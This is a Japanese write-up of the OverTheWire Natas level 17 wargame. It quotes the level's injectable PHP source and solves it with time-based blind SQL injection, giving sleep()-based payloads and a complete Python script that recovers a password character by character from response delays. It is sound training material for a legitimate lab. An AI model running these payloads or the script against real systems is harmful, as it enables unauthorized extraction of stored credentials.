 ![](img/natas17-1.png)  

"Username"が存在するかチェックすることができるらしい。  

適当に"test"と入力してみると、  

![](img/natas17-2.png)  


何も表示されない。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

この部分、  
```
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```
ユーザーが存在してもしなくてもコメントアウトされているため何も返されないように書かれている。  


```

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
```

DBへのクエリを組んでいるコードを見てみるとこのようになっており、  
GETメソッドの"debug"パラメータで$queryのdebugを行えるらしい。  

以下のリクエストを送ってみると、  
```
http://natas17.natas.labs.overthewire.org/index.php?debug&username=hoge
```

![](img/natas17-3.png)  


今回もSQL Injectionを試みる問題だと思うが、  
エラーメッセージもレスポンスは何もないのでBlind SQL InjectionのTime-basedのSQL攻撃を行います。  


最初に`natas18" and password like binary "%{c}%" and sleep({delay}) and "1"="1'`のようなクエリで、  
パスワード（flag）に含まれる文字を探索していき、  
`natas18" and password like binary "{tmp_passw}%" and sleep(1) and "1" = "1`で、  
パスワードの文字の順番を確定していく。  

それらを行う以下のpythonコードを実行してクリア  

```
import requests
import time
import string


url = "http://natas17.natas.labs.overthewire.org/"
user = "natas17"
passw = "***************************"

session1 = requests.Session()
charset = string.ascii_letters + string.digits  # 使用する文字セット
delay = 1  # sleep秒数
timeout_threshold = delay + 0.5  # 応答遅延判定の閾値

# 該当する文字を含んでいるかを確認（like + sleep）
def test_character(c):
    data = {
        'username': f'natas18" and password like binary "%{c}%" and sleep({delay}) and "1"="1'
    }

    start = time.time()
    try:
        response = session1.post(url, data=data, auth=(user, passw), timeout=timeout_threshold)
        elapsed = time.time() - start
        return elapsed >= delay
    except requests.exceptions.ReadTimeout:
        return True  # タイムアウトしたらsleepが実行されたとみなす

if __name__ == "__main__":
    print("Testing characters in password using LIKE and sleep():")
    found_chars = ""
    for c in charset:
        if test_character(c):
            found_chars += c
            print(f"[+] Character likely present in password: {c}")
    print("\n[+] Possible characters in password:", found_chars)

    restored_passw = ""
    for _ in range(32):
        for c in found_chars:
            tmp_passw = restored_passw + c
            response = session1.post(url, data = {'username' : f'natas18" and password like binary "{tmp_passw}%" and sleep(1) and "1" = "1'}, auth = (user, passw) )
            if(response.elapsed.seconds >= 1):
                restored_passw = tmp_passw
                break
    print("final result: ", restored_passw)
```
